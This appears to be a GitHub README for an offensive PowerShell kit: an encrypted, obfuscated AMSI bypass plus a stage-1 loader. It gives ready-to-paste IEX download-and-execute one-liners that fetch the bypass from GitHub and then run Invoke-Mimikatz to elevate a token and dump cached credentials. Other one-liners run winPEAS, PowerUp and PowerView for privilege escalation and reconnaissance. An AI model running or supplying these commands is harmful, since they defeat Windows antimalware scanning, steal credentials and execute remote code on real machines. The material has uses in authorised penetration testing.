 # Encrypted/Encoded Obfuscated AMSI Bypass

- generator.go  
This wraps an obfuscated AMSI payload from amsi.fail with encryption and encoding  

- stage-1.ps1  
This decodes and invokes the encrypted, encoded, obfuscated payload

Download and invoke stage-1 payload:  
```powershell  
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/timsonner/encode-decode-payloads/refs/heads/master/amsi-bypass/stage-1.ps1")
```  

Download and invoke whatever you like after stage-1:  
```powershell  
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command '"token::elevate" "lsadump::cache"'

IEX (New-Object Net.WebClient).downloadString("https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1")

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1");Invoke-AllChecks

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1")

```  

More IEX and pentestery...  
https://gist.github.com/shorefall/cb9733f3aaf666d7db94e69dcd8b1e44  
https://gist.github.com/mehmethafif/03305b668be52ecaff270bac1700662f  



